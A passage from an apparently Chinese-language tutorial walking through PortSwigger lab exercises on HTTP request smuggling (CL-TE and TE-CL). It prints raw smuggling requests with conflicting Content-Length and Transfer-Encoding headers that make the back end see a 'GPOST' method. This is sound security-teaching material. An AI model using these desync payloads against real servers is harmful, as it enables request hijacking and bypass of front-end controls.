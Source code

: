 以上 6 个字节为请求 A 的 body ，会将这个请求 A 当作一个完整的请求转发到后端，而当 Backend 服务器优先以 TE 处理时，会认为

```plain
POST / HTTP/1.1
Host: ac8f1fae1e6cd77b8073213100b500d6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0
```

这个是一个完整的，单独的请求，而

```plain
G
```

这个他会视为一个不完整的请求，所以就造成了 1/2 B 请求的产生，于是会在 Backend 服务器缓冲区处等待其他数据的到来以使得将 1/2 B 拼接成一个完整的请求，当我们发送第二遍请求的时候，POST 会拼接到 G 后面，所以 HTTP Method 会变成 GPOST 方法，也就是我们看到的得到的回显，无法识别的 HTTP Method GPOST。

### TE-CL

接下来我们来看 TE-CL 的情况，同样我们借助 LAB 实验来加深理解：[Lab: HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

> This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

按照题目提示，我们要达到的仍然是让后端收到 GPOST 请求，而且场景也明确告诉我们是一种 TE-CL 的场景。

```plain
POST / HTTP/1.1
Host: acde1ffc1f047f9f8007186200ff00fe.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1
0
```

这里需要注意的是最后需要加两个 CRLF 构造 chunk data，也就是

```plain
0\r\n
\r\n
```

根据题目的提示要求，这里我们发送两次以上 HTTP 请求包即可，我们可以收到如下图所示的响应。

